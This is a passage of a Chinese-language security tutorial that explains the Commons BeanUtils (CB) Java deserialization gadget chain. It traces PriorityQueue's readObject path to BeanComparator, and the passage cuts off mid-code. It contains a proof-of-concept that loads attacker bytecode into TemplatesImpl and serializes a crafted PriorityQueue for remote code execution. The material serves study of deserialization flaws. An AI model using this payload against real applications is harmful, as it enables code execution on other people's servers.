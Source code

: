 3. 在`siftDown()`中我们可以自己使用自己的comparator来进行不同类型元素的比较，跟进发现在`siftDownUsingComparator()`中的`comparator.compare()`进行了不同元素的比较。

comparator是一个实现了`Comparable`接口的对象，所以其实对于PriorityQueue的readObject方法这个反序列化利用点，关键就在于找到一个可利用的comparator对象，在CB链中我们利用的便是`org.apache.commons.beanutils.BeanComparator`

详细的PriorityQueue源码解析可以参考这篇文章：[PriorityQueue源码分析](https://www.cnblogs.com/linghu-java/p/9467805.html)

# 编写POC

接下来我们从利用链的开始来注意需要注意的地方：

首先是从构造函数出发：

```java
public PriorityQueue(int initialCapacity,
                     Comparator<? super E> comparator) {
  // Note: This restriction of at least one is not actually needed,
  // but continues for 1.5 compatibility
  if (initialCapacity < 1)
    throw new IllegalArgumentException();
  this.queue = new Object[initialCapacity];
  this.comparator = comparator;
}
```

我们发现我们可控的只有initialCapacity和comparator，而在heapify函数中，要进入循环，需要满足size大于等于2（默认值为int类型的初始指为0）。所以我们有两个思路，一个是直接利用反射修改size的属性值，另一个则是找到有没有修改size属性的public方法并且从外部调用。这里大部分文章都是利用了`add()`方法来达到修改`size`的目的，这里我们采用第一种方法，即直接修改`size`的属性

此外，我们还需要修改queue的属性（从后面`siftDownUsingComparator()`可以看出compare的元素其实都是从queue属性中拿出的），经过调试分析得知至少需要两个元素，最终POC为：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException, InvocationTargetException, NoSuchMethodException, ClassNotFoundException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/luyanchen/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        BeanComparator beanComparator = new BeanComparator("outputProperties");
        PriorityQueue priorityQueue = new PriorityQueue(beanComparator);
        setField("size",priorityQueue,2);
        setField("queue",priorityQueue,new Object[]{template,template});
        serialize(priorityQueue);
        unserialize();
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
```